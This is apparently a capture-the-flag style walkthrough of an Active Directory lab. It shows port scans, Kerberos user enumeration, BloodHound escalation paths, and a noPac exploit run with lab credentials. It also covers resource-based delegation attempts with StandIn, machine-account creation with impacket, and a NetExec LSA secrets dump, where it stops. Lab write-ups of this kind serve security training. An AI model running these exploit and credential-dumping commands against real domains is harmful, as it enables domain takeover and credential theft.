As usual we can start by using RUSTSCAN to check all the services alive on the TCP protocoll.

```
PORT      STATE SERVICE       REASON         VERSION
53/tcp    open  domain        syn-ack ttl 64 Simple DNS Plus
88/tcp    open  kerberos-sec  syn-ack ttl 64 Microsoft Windows Kerberos (server time: 2024-07-01 10:09:28Z)
135/tcp   open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 64 Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack ttl 64 Microsoft Windows Active Directory LDAP (Domain: corp.local, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds  syn-ack ttl 64 Windows Server 2016 Standard 14393 microsoft-ds (workgroup: CORP)
464/tcp   open  kpasswd5?     syn-ack ttl 64
593/tcp   open  ncacn_http    syn-ack ttl 64 Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped    syn-ack ttl 64
3268/tcp  open  ldap          syn-ack ttl 64 Microsoft Windows Active Directory LDAP (Domain: corp.local, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped    syn-ack ttl 64
3389/tcp  open  ms-wbt-server syn-ack ttl 64 Microsoft Terminal Services
| ssl-cert: Subject: commonName=DC01.corp.local
| Issuer: commonName=DC01.corp.local
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-06-30T03:32:45
| Not valid after:  2024-12-30T03:32:45
| MD5:   f7f5:1829:b0c6:fe47:f9e4:6c8e:0c63:3730
| SHA-1: b372:7746:ac30:74dd:4700:d6bf:7f4b:8109:b332:bf52
| -----BEGIN CERTIFICATE-----
| MIIC4jCCAcqgAwIBAgIQI/Nut7vJFIRO8YmoJnCcPDANBgkqhkiG9w0BAQsFADAa
| MRgwFgYDVQQDEw9EQzAxLmNvcnAubG9jYWwwHhcNMjQwNjMwMDMzMjQ1WhcNMjQx
| MjMwMDMzMjQ1WjAaMRgwFgYDVQQDEw9EQzAxLmNvcnAubG9jYWwwggEiMA0GCSqG
| SIb3DQEBAQUAA4IBDwAwggEKAoIBAQCJI+tBsjdd/fQyf5Hg67rZ77AeCMq7hVew
| Y+0g0Hzh4i6yCdhe4z3mDwgPAg1Rmh8E1N1UfApSmG/qwAVyKiZyUPcKWdLKRdue
| DL8b8zlrqsK3eG7KXyBgaqT5U8LlfnqYB+mb+xLQZH4+SkcSq5O/T2qTbQeWeSsz
| gAyeOTRA0CdJVsv2OSxamR4aCLlCPSzC2Zhk6OmR41QathAgIO1HJtF8JZ1eMyA0
| hyJzYAhnWemY//faxcMlZsAHLKXjjMBmWsITUNr5z2kuxKhTfhZ7EHVAvBytLD/d
| tokOu11MxNKY9/TuzaeYLvMS84r+xNli1g28EaROfgq1Jd+5vgNLAgMBAAGjJDAi
| MBMGA1UdJQQMMAoGCCsGAQUFBwMBMAsGA1UdDwQEAwIEMDANBgkqhkiG9w0BAQsF
| AAOCAQEAUswW0BfpLuslLrpyDcB5dhaOL9Qg3e4C3rZu9uKcJxqRmebJWvyKswnU
| EUB3Dx6qqN4is58BOxnH2s3A3b7Kxh1GxY3XJvYTFpRI33h5gnfp7uObvuHnpXvK
| hP/UjBHOTP902sOpOqb4K9BBZTWCWyl3Mj6lPjuF8WDWfk8TGtkJk7ojmtDQV7N+
| t+s3sURQDUVVdro9DlPFFWdvJO6s++cEBfp68i1iBf92AFP0/cdYOKNc02OSFsJ2
| 9pPMXi7vvl9vHdV/BDYF+F8cXQFUHhQZ/vUMQZSTG1eLsTQ++iuRxPhr66BbAJnj
| MTPTBlTYAEFhsaOAZ7wTZCayjE0SBA==
|_-----END CERTIFICATE-----
| rdp-ntlm-info: 
|   Target_Name: CORP
|   NetBIOS_Domain_Name: CORP
|   NetBIOS_Computer_Name: DC01
|   DNS_Domain_Name: corp.local
|   DNS_Computer_Name: DC01.corp.local
|   DNS_Tree_Name: corp.local
|   Product_Version: 10.0.14393
|_  System_Time: 2024-07-01T10:10:21+00:00
|_ssl-date: 2024-07-01T10:10:32+00:00; +2s from scanner time.
5985/tcp  open  http          syn-ack ttl 64 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf        syn-ack ttl 64 .NET Message Framing
47001/tcp open  http          syn-ack ttl 64 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49665/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49666/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49668/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49673/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49674/tcp open  ncacn_http    syn-ack ttl 64 Microsoft Windows RPC over HTTP 1.0
49675/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49677/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49680/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49688/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49702/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): IBM z/OS 1.12.X (85%)
OS CPE: cpe:/o:ibm:zos:1.12
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
Aggressive OS guesses: IBM z/OS 1.12 (85%)
No exact OS matches for host (test conditions non-ideal).
TCP/IP fingerprint:
SCAN(V=7.94SVN%E=4%D=7/1%OT=53%CT=%CU=%PV=Y%G=N%TM=66828097%P=x86_64-pc-linux-gnu)
SEQ(SP=104%GCD=1%ISR=104%TI=I%CI=RD%II=RI%TS=A)
OPS(O1=M5B4NNT11NW7%O2=M5B4NNT11NW7%O3=M5B4NNT11NW7%O4=M5B4NNT11NW7%O5=M5B4NNT11NW7%O6=M5B4NNT11)
WIN(W1=7200%W2=7200%W3=7200%W4=7200%W5=7200%W6=7200)
ECN(R=Y%DF=N%TG=40%W=7200%O=M5B4NW7%CC=N%Q=)
T1(R=Y%DF=N%TG=40%S=O%A=S+%F=AS%RD=0%Q=)
T2(R=Y%DF=N%TG=40%W=0%S=Z%A=S%F=AR%O=%RD=0%Q=)
T3(R=Y%DF=N%TG=40%W=7200%S=O%A=S+%F=AS%O=M5B4NNT11NW7%RD=0%Q=)
T4(R=Y%DF=N%TG=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
T5(R=Y%DF=N%TG=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)
T6(R=Y%DF=N%TG=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
T7(R=Y%DF=N%TG=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)
U1(R=N)
IE(R=Y%DFI=S%TG=40%CD=S)
```

And do the same on the first 1k(ish) ports alive on the UDP protocoll via NMAP this time.

```
┌──(root㉿kali-bello)-[/home/millycash/Downloads/OffShore]
└─# nmap -F -sU 172.16.1.5   
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-01 12:07 CEST
Nmap scan report for 172.16.1.5
Host is up (0.00026s latency).
All 100 scanned ports on 172.16.1.5 are in ignored states.
Not shown: 100 open|filtered udp ports (no-response)

Nmap done: 1 IP address (1 host up) scanned in 20.61 seconds
```

&nbsp;

# KERBEROS

At this early stage I don't have any valid credentials so I will start by looking for possible usernames and check if maybe some of those holds any "AS-REPRoasting" permissions?

I will start by using the wordlist jsmith.txt:

```
msf6 auxiliary(gather/kerberos_enumusers) > run

[*] Using domain: CORP.LOCAL - 172.16.1.5:88        ...
[+] 172.16.1.5 - User: "jjones" is present
[+] 172.16.1.5 - User: "ajones" is present
[+] 172.16.1.5 - User: "bjones" is present
[+] 172.16.1.5 - User: "ddavis" is present
[+] 172.16.1.5 - User: "jking" is present
[+] 172.16.1.5 - User: "mmoore" is present
[+] 172.16.1.5 - User: "jadams" is present
[+] 172.16.1.5 - User: "ajackson" is present
[+] 172.16.1.5 - User: "dthompson" is present
[+] 172.16.1.5 - User: "kmartin" is present
[+] 172.16.1.5 - User: "mwalker" is present
[+] 172.16.1.5 - User: "syoung" is present
[+] 172.16.1.5 - User: "chernandez" is present
[+] 172.16.1.5 - User: "mtorres" is present
[+] 172.16.1.5 - User: "bmoore" is present
[+] 172.16.1.5 - User: "jbennett" is present
[+] 172.16.1.5 - User: "cparker" is present
[+] 172.16.1.5 - User: "jjenkins" is present
[+] 172.16.1.5 - User: "abell" is present
[+] 172.16.1.5 - User: "abailey" is present
[+] 172.16.1.5 - User: "mreynolds" is present
[+] 172.16.1.5 - User: "ahamilton" is present
[+] 172.16.1.5 - User: "kreed" is present
[+] 172.16.1.5 - User: "mholmes" is present
[+] 172.16.1.5 - User: "kpowell" is present
[+] 172.16.1.5 - User: "dpatterson" is present
```

&nbsp;

# Attacking DC

Now I will try to check if the DC can be attacked via ZeroLogon exploit? I came back specifically after the note saved in JOE laptop and when I tried first I always got this error:



And googling about the issue might be caused by that i am using the FQDN and not the NETBIOS name(aka the short one).


If we use the DC01 as short name should do the trick?



But it times out and as I heard it is all about timing here but it kept failing but the implementation in Metasploit seems giving me more hopes?



&nbsp;

# AD Analysis

With `Pgibbons` credentials found in Bill's share of FS01 I was able to gain some credentials and upon a quick analysis in Bloodhound seems like he can he have fullpowers on Salvador and add himself to Contractors?



Now the Contractor group seems not so interesting as it is not showing any more privilege than we are and nonetheless Pgibbons is already part of it.

But taking over Salvador's account is much more appealing as he is part of `ITAmins` group:



And ITAdmins can add itself to Security Engineers:



And `security Engineers` can take over `Cyber_adm` user



Which can take over the service account `Cyber_ops`:



&nbsp;

# Attacking the DC01

Now I am cyber_adm and I am wondering if this DC is vulnerable to nopac?

```
┌──(root㉿kali-bello)-[/home/millycash/Downloads/Exploits/noPac]
└─# python3 scanner.py corp.local/cyber_adm -dc-ip 172.16.1.5 -use-ldap

███    ██  ██████  ██████   █████   ██████ 
████   ██ ██    ██ ██   ██ ██   ██ ██      
██ ██  ██ ██    ██ ██████  ███████ ██      
██  ██ ██ ██    ██ ██      ██   ██ ██      
██   ████  ██████  ██      ██   ██  ██████ 
                                           
                                        
    
Password:
[*] No credentials supplied, supply password
Password:
[*] Current ms-DS-MachineAccountQuota = 10
[*] Got TGT with PAC from 172.16.1.5. Ticket size 1575
[*] Got TGT from 172.16.1.5. Ticket size 1575
```

We have a positive machine quota and we got back a positive(non null) TGT this is a very good sign.

```
┌──(root㉿kali-bello)-[/home/millycash/Downloads/Exploits/noPac]
└─# sudo python3 noPac.py corp.local/cyber_adm:'Coglione1!' -dc-ip 172.16.1.5  -dc-host DC01 -shell --impersonate administrator -use-ldap


███    ██  ██████  ██████   █████   ██████ 
████   ██ ██    ██ ██   ██ ██   ██ ██      
██ ██  ██ ██    ██ ██████  ███████ ██      
██  ██ ██ ██    ██ ██      ██   ██ ██      
██   ████  ██████  ██      ██   ██  ██████ 
    
[*] Current ms-DS-MachineAccountQuota = 10
[*] Selected Target DC01.corp.local
[*] will try to impersonate administrator
[*] Adding Computer Account "WIN-HDZEIU0AMW4$"
[*] MachineAccount "WIN-HDZEIU0AMW4$" password = $RQxr%Vu4FNp
[*] Successfully added machine account WIN-HDZEIU0AMW4$ with password $RQxr%Vu4FNp.
[*] WIN-HDZEIU0AMW4$ object = CN=WIN-HDZEIU0AMW4,CN=Computers,DC=corp,DC=local
[-] Cannot rename the machine account , Reason 00000523: SysErr: DSID-031A1260, problem 22 (Invalid argument), data 0

[*] Attempting to del a computer with the name: WIN-HDZEIU0AMW4$
[-] Delete computer WIN-HDZEIU0AMW4$ Failed! Maybe the current user does not have permission.
```

But then I totally forgot tho check the last step, we can reset the password of `cyberops_svc`:





And let's see what can we do now?

But this wasn't enough so i went back to drawing table and seems like we can perform a DCSync from the `WEB-WIN01`:



This mean we can go back to WEB-WIN01 and get a DCSync going on?



No this means we need to perform a RBDC and we might need to add a new pc to local domain? We can use this tool that will do the work for us:

https://github.com/FuzzySecurity/StandIn

So first we need to obtain the SID of the computer with SPN(WEB-WIN01 works too):



Or on the same tool:

```
PS C:\Temp> ./StandIn.exe --object samaccountname=WEB-WIN01$
>>

[?] Using DC : DC01.corp.local
[?] Object   : CN=WEB-WIN01
    Path     : LDAP://CN=WEB-WIN01,OU=Web Servers,OU=Servers,OU=Corp,DC=corp,DC=local

[?] Iterating object properties

[+] samaccountname
    |_ WEB-WIN01$
[+] objectsid
    |_ S-1-5-21-2291914956-3290296217-2402366952-7101

PS C:\Temp>
```

But it fails WTF:

```
PS C:\Temp> ./StandIn.exe --computer DC01 --sid S-1-5-21-2291914956-3290296217-2402366952-7101

[?] Using DC : DC01.corp.local
[?] Object   : CN=DC01
    Path     : LDAP://CN=DC01,OU=Domain Controllers,DC=corp,DC=local
[!] Failed to set host msDS-AllowedToActOnBehalfOfOtherIdentity property..
Access is denied.

PS C:\Temp> whoami
corp\cyber_adm
PS C:\Temp> HOSTNAME.EXE
WEB-WIN01
```

So i will add a new dummy computer:

```
──(root㉿kali-bello)-[/home/millycash/Downloads/OffShore/www]
└─# addcomputer.py  -computer-name 'YOVECIO$' -computer-pass 'Coglione1!' -dc-host DC01 -domain-netbios corp.local 'corp.local/cyber_adm:Coglione1!'
Impacket v0.12.0.dev1+20240604.210053.9734a1af - Copyright 2023 Fortra

[*] Successfully added machine account YOVECIO$ with password Coglione1!.
```

Now I need the SID of the new pc:

```
[+] samaccountname
    |_ YOVECIO$
[+] objectsid
    |_ S-1-5-21-2291914956-3290296217-2402366952-15601
[+] lastlogoff
    |_ 0
[+] accountexpires
    |_ 0x7FFFFFFFFFFFFFFF
PS C:\Temp>
```

So here the issue is that we are logged in currently as Cyber_Adm from WEB-WIN01 and he have by any means no right to perform this. instead we need to use NetExec and dump the NTLM hash of the `WEB-WIN01$` computer object and use that to change the permissions.

```
┌──(root㉿kali-bello)-[/home/millycash/Downloads/OffShore/www]
└─# NetExec smb 172.16.1.24 -u 'cyber_adm' -p 'Coglione1!' --lsa
